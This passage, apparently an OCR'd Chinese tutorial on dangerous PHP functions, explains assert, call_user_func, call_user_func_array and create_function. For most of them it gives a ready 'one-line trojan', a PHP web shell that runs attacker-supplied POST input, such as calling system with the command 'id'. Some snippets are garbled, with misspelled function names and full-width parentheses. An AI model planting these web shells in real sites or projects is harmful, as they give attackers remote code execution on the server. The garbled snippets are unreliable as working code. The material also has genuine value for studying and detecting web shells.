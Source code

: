    一句话木马

   ```
   <?php @assert($_POST['x']);?> 
   ```

3. **call_user_func函数**

   第一个参数callback是被调用的回调函数 其余参数是回调函数用的参数

   ```
   mixed call_user_func(callable $callback[,mixed $parameter[,mined $parameter...]])
   ```

   一句话木马：

   通过POST型fun参数调用`system`函数，通过POST型`arg`参数传入`id`命令，执行了`system（'id'）`返回当前用户信息

   ```
   <?php call_user_func（$_POST['fun'],$_POST['arg']）;?>
   ```

4. **call_user_func_arrey函数**

   把第一个参数作为回调函数调用，把参数数组作为回调函数的参数调用

   ```
   mixed call_user_func_arrey(callable $callback,array $param_arr)
   ```

   一句话木马：

   通过POST型fun参数调用`system`函数，通过POST型`arg`参数传入`id`命令，执行了`system（'id'）`返回当前用户信息

   ```
   <?php call_user_func_array（$_POST['fun'],$_POST['arg']）;?>
   ```

5. **create_function函数**

   根据传递的参数创建匿名函数 并为该匿名函数返回唯一名称

   ```
   string create_function(string $args,string $code)
   ```

   示例代码

   ```
   <?php 
   	$id=$_GET['id']; 
   	$code='echo'.$func.'test'.$id.';'; 
   	create_function('$func',$code); 
   ?>
   ```

   create_function函数会创建虚拟函数，转变成以下代码

   ```
   <?php 
   	$id=$_GET['id']; 
   	function func($func){ 	
   		echo "test".$id;  
   	} 
   ?>
   ```

